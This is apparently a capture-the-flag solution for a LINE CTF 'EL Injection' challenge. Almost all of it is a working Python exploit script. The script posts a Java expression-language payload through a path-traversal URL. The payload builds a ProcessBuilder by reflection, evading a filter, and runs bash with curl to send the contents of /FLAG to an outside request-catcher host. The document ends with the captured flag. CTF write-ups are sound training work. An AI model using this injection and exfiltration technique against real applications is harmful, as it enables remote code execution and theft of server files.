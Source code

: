 # Description

- EL Injection

```python
import requests

headers = {
    'accept': 'application/json'
}

data = {
    #"name": "7815696ecbf1c96e6894b779456d3aaa",
    "name": '${"".getClass().forName("java.lang.ProcessBuilde".concat("r")).getDeclaredConstructors()[0].newInstance(["bash", "-c", "curl https://bhpvqke.request.dreamhack.games/$(cat /FLAG)"]).start()}',
}

res = requests.post('http://35.200.117.55:20080/api/external/..;/internal;/', headers=headers, json=data)
print(res)
print(res.headers)
print(res.text)
```

- **Flag: LINECTF{7988de328384f8a19998923a87aa053f}**
